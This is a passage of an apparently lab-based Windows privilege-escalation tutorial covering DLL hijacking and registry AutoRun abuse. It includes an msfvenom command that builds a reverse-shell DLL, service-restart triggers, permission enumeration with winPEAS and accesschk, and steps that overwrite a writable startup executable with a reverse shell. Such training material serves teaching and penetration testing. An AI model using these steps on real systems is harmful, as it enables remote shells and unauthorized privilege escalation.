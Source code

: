 ```
```
8. Back in Procmon, note that a number of “NAME NOT
FOUND” errors appear, associated with the hijackme.dll file.
9. At some point, Windows tries to find the file in the C:\Temp
directory, which as we found earlier, is writable by our user.
10. On Kali, generate a reverse shell DLL named hijackme.dll:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll
```
11.  Copy the DLL to the Windows VM and into the C:\Temp directory. Start a
listener on Kali and then stop/start the service to trigger the exploit:
```
net stop dllsvc
net start dllsvc
```

# Registry Exploits

## AutoRuns

Windows can be configured to run commands at startup, with elevated privileges.

These “AutoRuns” are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

### Privilege Escalation
1. Use winPEAS to check for writable AutoRun executables:
```
.\winPEASany.exe quiet applicationsinfo
```
2. Alternatively, we could manually enumerate the AutoRun executables:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```
and then use accesschk.exe to verify the permissions on each one:
```
.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
3. The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:
```
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```
4. Copy our reverse shell executable to overwrite the AutoRun executable:
```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
```
5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.
